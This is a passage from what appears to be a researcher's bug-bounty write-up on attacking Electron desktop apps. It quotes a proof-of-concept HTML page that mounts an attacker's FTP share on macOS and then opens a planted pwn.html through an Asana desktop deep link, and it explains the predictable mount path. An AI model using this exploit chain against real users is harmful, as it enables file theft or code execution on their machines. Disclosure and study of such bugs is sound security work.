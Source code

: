 So in the end I had no other option for Windows, but later I stumbled upon this disclosed report from @RenwaX23.

<br/>
<center><a
  href="https://bugcrowd.com/disclosures/f7ce8504-0152-483b-bbf3-fb9b759f9f89/critical-local-file-read-in-electron-desktop-app"
  class="card-preview"
  data-size="medium"
  target="_blank">
  Loading preview...
</a></center>
<br/>

From his poc

```html
<body>
<br><br>
<h1 style=color:green onclick=start()>
Click Here and confirm the dialog boxes to connect
</h1>
<script>
function start(){
location='ftp://tinnier-regions:slawbra23@files.000webhost.com';
setTimeout(()=>{
location='https://app.asana.com/-/desktop_app_link?path=/file:///Volumes/files.000webhost.com/public_html/pwn.html'
},10000)
}

</script>
```

On macOS, if a webpage navigates to the `ftp:` scheme using location, the Finder dialog box appears  clicking Open will automatically mount the share in an easily guessable location on the victim’s file system.

```
file:///Volumes/files.000webhost.com/public_html/pwn.html
```



<br/>
<center><a
  href="https://github.com/Metnew/write-ups/tree/main/rce-github-desktop-2.9.3"
  class="card-preview"
  data-size="medium"
  target="_blank">
  Loading preview...
</a></center>
<br/>

I included these additional details in my reports, showing that the username requirement could be bypassed. After some time, I received this response 🥲. It seems they considered that there could be many bugs if users open or rely on such malicious templates, and the best way to handle this is simply to warn the user before opening untrusted templates.
